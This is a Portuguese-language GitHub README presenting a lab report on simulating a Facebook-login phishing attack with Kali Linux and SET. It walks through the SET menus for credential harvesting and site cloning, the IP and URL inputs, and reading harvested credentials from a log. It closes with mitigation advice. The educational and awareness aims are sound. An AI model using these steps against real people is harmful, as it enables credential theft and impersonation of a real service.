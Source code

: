 # Phishing-com-Kali-Linux
Este repositório contém um relatório técnico sobre a simulação de um ataque de phishing usando Kali Linux e o Social Engineering Toolkit (SET). O objetivo é demonstrar métodos de captura de credenciais em um ambiente controlado, promovendo a conscientização sobre segurança cibernética e fornecendo recomendações para prevenção de phishing.

## 1. Introdução
Este relatório documenta a execução de um experimento de segurança ofensiva utilizando o Kali Linux para simular um ataque de phishing. O objetivo é compreender os métodos utilizados por agentes maliciosos e reforçar o conhecimento sobre segurança cibernética, sempre dentro de um ambiente controlado e ético.

## 2. Ambiente de Testes
- **Sistema Operacional:** Kali Linux  
- **Ferramenta Utilizada:** Social Engineering Toolkit (SET)  
- **Método de Ataque:** Credential Harvester Attack + Site Cloner  
- **Alvo Simulado:** Página de login do Facebook 

## 3. Configuração do Phishing no Kali Linux

### 3.1 Acessando o SEToolkit
Execute o comando abaixo para iniciar o SEToolkit:
bash
sudo setoolkit

Quando solicitado, selecione as seguintes opções:
1. **Social-Engineering Attacks**
2. **Website Attack Vectors**
3. **Credential Harvester Attack Method**
4. **Site Cloner**

### 3.2 Obtendo o Endereço da Máquina
Para que as vítimas acessem a página clonada, é necessário identificar o endereço IP do Kali Linux. Use:
bash
ifconfig

Ou no caso de versões mais recentes do Linux:
bash
ip a

Anote o endereço IP (exemplo: 192.168.0.105).

### 3.3 Clonando o Site Alvo
No SEToolkit, forneça o endereço da máquina (IP) e o site a ser clonado:
bash
Enter the IP address for the POST back in Harvester/Tabnabbing: 192.168.0.105
Enter the URL to clone: http://www.facebook.com

O SET gerará uma cópia da página de login e começará a capturar credenciais.

### 3.4 Captura de Credenciais
Quando um usuário inserir dados na página falsa, as credenciais serão armazenadas no seguinte arquivo:
bash
/var/www/html/harvester.log

Para visualizar:
bash
cat /var/www/html/harvester.log


## 4. Resultados
A execução do experimento demonstrou que um atacante pode enganar usuários desatentos para capturar credenciais. Abaixo está um exemplo fictício de credenciais capturadas:
POSSIBLE USERNAME FIELD FOUND: email=joao@gmail.com
POSSIBLE PASSWORD FIELD FOUND: pass=passwd


## 5. Medidas de Mitigação
Para prevenir ataques de phishing, recomenda-se:
1. **Ativar a autenticação em dois fatores (2FA).**
2. **Evitar clicar em links desconhecidos ou suspeitos.**
3. **Utilizar gerenciadores de senhas para evitar reutilização de credenciais.**
4. **Verificar se a URL do site está correta antes de inserir informações sensíveis.**
5. **Manter sistemas e navegadores atualizados para bloquear sites fraudulentos.**

## 6. Conclusão
Este experimento ilustra como um ataque de phishing pode ser realizado por agentes mal-intencionados. O conhecimento desses métodos permite que profissionais de segurança desenvolvam melhores estratégias de defesa. Sempre que realizar testes de segurança, certifique-se de que está em um ambiente controlado e autorizado.

**Nota:** Este estudo foi realizado com fins educacionais e não deve ser utilizado para atividades maliciosas.

